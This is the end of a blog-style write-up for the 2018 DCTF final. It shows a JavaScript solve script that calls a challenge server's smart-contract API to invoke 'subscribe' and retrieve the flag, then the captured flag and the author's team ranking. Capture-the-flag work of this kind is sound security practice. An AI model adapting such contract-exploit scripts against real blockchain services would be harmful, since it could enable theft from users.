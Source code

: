 ```javascript
    params: [],
    value: 0,
    type: 'standard',
    gas: 2000000,
    gasPrice: 0,
  });

  console.log(r.data);

  r = await axios.post('http://142.93.103.129:3000/call_contract', {
    address: target,
    abi,
    from: myaddr,
    password: mypass,
    func: 'subscribe',
    params: [myaddr, 1],
    value: 0,
    type: 'standard',
    gas: 2000000,
    gasPrice: 0,
  });

  r = await axios.post('http://142.93.103.129:3000/get_flag', {
    id: 1,
    target: target,
    attacker: myaddr,
    password: mypass,
  });

  console.log(r.data);
})();
```

flag: `DCTF{49fa9bf37efd8d4b2c4ad4ce8a60f8022945bf1f6334c76cd729f2e029cf178c}`

# Extra

Despite being our first international CTF, my team, [HATS Singapore](https://ctftime.org/team/58574), ended at No. 12 on the scoreboard out of 17 teams, and we were able to beat [dcua](https://defcon.org.ua/) :)


{{< figure src="/blog/2018/dctf-final-writeup/ranks.png" >}}
